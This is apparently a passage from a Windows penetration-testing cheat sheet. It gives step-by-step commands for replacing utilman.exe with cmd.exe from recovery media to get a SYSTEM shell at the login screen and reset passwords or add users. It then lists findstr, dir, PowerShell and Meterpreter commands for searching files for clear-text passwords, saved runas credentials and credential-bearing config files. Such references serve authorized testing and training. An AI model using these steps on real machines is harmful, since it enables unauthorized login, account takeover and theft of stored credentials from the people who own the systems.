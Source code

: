 The procedure to do so is as follow:

  1. Download the Windows ISO corresponding to the attacked system and burn it
     to a CD/DVD
  2. Boot on the thus created CD/DVD
  3. Pick the "Repair your computer" option
  4. Select the “Use recovery tools [...]" option, pick the operating system
     from the list and click "Next"
  5. A command prompt should open, enter the following commands:
      - `cd windows\system32`
      - `ren utilman.exe utilman.exe.bak`
      - `copy cmd.exe utilman.exe`
  6. Remove the CD/DVD and boot the system normally.
  7. On the login screen, press the key combination Windows Key + U
  8. A command prompt should open with NT AUTHORITY\SYSTEM rights
  9. Change a user password (net user <USERNAME> <NEWPASSWORD>) or create a new
  user

### Sensible content

###### Clear text passwords in files

The built-in `findstr` and `dir` can be used to search for clear text passwords
stored in files. The keyword 'password' should be used first and the search
broaden if needed by searching for 'pass'.

The `meterpreter` `search` command can be used in place of `findstr` if a
`meterpreter` shell is being used.

```
# Searches recursively in current folder
dir /s <KEYWORD>

# Meterpreter search command
search -f <FILE_NAME>.<FILE_EXTENSION> <KEYWORD>
search -f *.* <KEYWORD>

# Search (case insensitive) the specified keyword (for example 'password' or 'pass') in all or all the files of a given extension.
# The findstr is a Windows utility usable in a DOS shell. Get-ChildItem is a (faster) PowerShell cmdlet.
# A case sensitive search can be conducted using 's findstr /spin option or Get-Select-String's -CaseSensitive switch.

Get-ChildItem -ErrorAction SilentlyContinue -Recurse | Select-String "<KEYWORD>" -List | Select-Object -ExpandProperty Path
findstr /si "<KEYWORD>" *.*

Get-ChildItem -ErrorAction SilentlyContinue -Recurse -Filter <*.txt | *.<EXTENSION>> | Select-String "<KEYWORD>" -List | Select-Object -ExpandProperty Path
findstr /si "<KEYWORD>" <*.txt | *.<EXTENSION>>

# Search for runas with savecred in files
findstr /s /i /m "savecred" *.*
findstr /s /i /m "runas" *.*

# Find all those strings in config files.
dir /s *pass* == *cred* == *vnc* == *.config*
```
